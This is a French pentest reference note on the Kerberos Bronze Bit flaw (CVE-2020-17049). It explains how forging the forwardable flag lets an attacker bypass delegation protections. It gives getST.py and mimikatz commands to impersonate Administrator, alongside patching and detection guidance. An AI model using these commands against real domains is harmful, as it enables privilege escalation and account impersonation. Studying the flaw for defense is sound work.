

# Kerberos — Bronze Bit (CVE-2020-17049)

> [!info] **En 1 phrase**
> Bronze Bit = **reforger un ST S4U2Self non-forwardable en forwardable** : même les comptes **non délégables**
> (`Protected Users`, "sensitive and cannot be delegated") peuvent être impersonnés, y compris en cross-forest.

---

## Concept



> [!info] **Le bug**
> Dans S4U2Self, le ST est marqué **non-forwardable** pour empêcher son usage vers d'autres services.
> CVE-2020-17049 : le **KDC ne vérifie pas** que le ST présenté à S4U2Proxy est bien forwardable → un
> attaquant **forge la partie forwardable** du ticket. Résultat : les protections "sensitive and cannot be
> delegated" et `Protected Users` sont contournées.

---

## Exploitation

> Conditions : délégation contrainte (ou RBCD) **non patchée** — soit l'option **"always forwardable"**
> n'est PAS activée, soit on a **SYSTEM sur la machine compromise** pour attaquer depuis un contexte valide.

```bash
getST.py -spn cifs/Service2.test.local -impersonate Administrator -hashes <LM:NT> -aesKey <AES> test.local/Service1 -force-forwardable -dc-ip DC
```

```powershell
mimikatz # kerberos::ptc User2.ccache
```

> Côté Rubeus : utiliser une build modifiée (`Rubeus-CVE-2020-17049`) ou l'option `/forwardable` selon la version.

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **Patch DC** | Mises à jour de **février 2021** → le KDC rejette les S4U2Proxy avec ST non-forwardable |
| **Événement 4769** | TGS forwardable accordé suite à un S4U2Self non-forwardable (source inhabituelle) |
| **Surveillance** | Activité S4U anormale vers des SPN sensibles (CIFS/HOST/LDAP) |
| **Réponse** | Patcher tous les DC ; éviter l'option "always forwardable" ; garder `Protected Users` |

---

## Tips & Pièges

> [!tip] **Avant le patch, c'est le bypass des protections anti-délégation**
> `Protected Users`, "sensitive and cannot be delegated" et même le **filtrage des SID cross-forest** étaient contournables via le reforge.

> [!warning] **Patché depuis ~février 2021** — sur un DC à jour, l'attaque échoue avec `KRB_AP_ERR_MODIFIED (Message stream modified)`.

---

> [!info] **Sources**
> - [Microsoft — CVE-2020-17049](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-17049)
> - [SpecterOps — A Guide to Attacking Domain Trusts](https://posts.specterops.io/a-guide-to-attacking-domain-trusts-ef0944266a42)
> - [InternalAllTheThings — Kerberos Delegation](https://github.com/swisskyrepo/InternalAllTheThings/tree/main/docs/active-directory)

**Liens :** [[Kerberos Delegation| Hub Délégation]] · [[Kerberos - Constrained Delegation| Constrained]] · [[Kerberos - RBCD (Resource-Based Constrained Delegation)| RBCD]] · [[Kerberos - Unconstrained Delegation| Unconstrained]] · [[Kerberos - Le protocole| Kerberos]]
